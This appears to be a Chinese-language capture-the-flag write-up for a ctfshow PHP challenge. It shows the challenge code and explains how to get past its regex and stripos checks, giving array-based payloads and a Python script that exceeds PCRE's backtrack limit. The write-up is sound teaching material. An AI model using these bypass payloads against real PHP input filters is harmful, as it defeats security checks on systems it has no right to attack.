 ```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

} 
```

> preg_match不识别数组，否则返回false，匹配一次返回1，没有返回0
>
> if(0 === flase)返回值为false0不是强等于false的
>
> stripos()函数对数组不识别，遇到数组会返回null，null!==flase

在/s模式下，.匹配任意字符，+表示重复一次或更多次，没错是至少一次！而后面加个?表示懒惰模式，+?表示重复1次或更多次，但尽可能少重复。当然懒惰模式并不影响解题思路，总之就是ctfshow前面必须得有字符才能匹配到，所以直接f=ctfshow就可以了

**payload**

```
?f=ctfshow[]
?f[]=1
?f=ctfshow  (第一个正则匹配时，必须要在ctfshow前面有字符)
```

下面就要介绍p神的PCRE回溯

> https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html



PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限`pcre.backtrack_limit`。我们可以通过`var_dump(ini_get('pcre.backtrack_limit'));`的方式查看当前环境下的上限：

我们通过发送超长字符串的方式，使正则执行失败，最后绕过目标对PHP语言的限制。

脚本

```
import requests
url="http://e07a37a6-9144-4f12-a24c-2fcd2f8cdbd0.challenge.ctf.show/"
data={
    'f':'very'*250000+'ctfshow'
}
r=requests.post(url,data=data)
print(r.text)

```
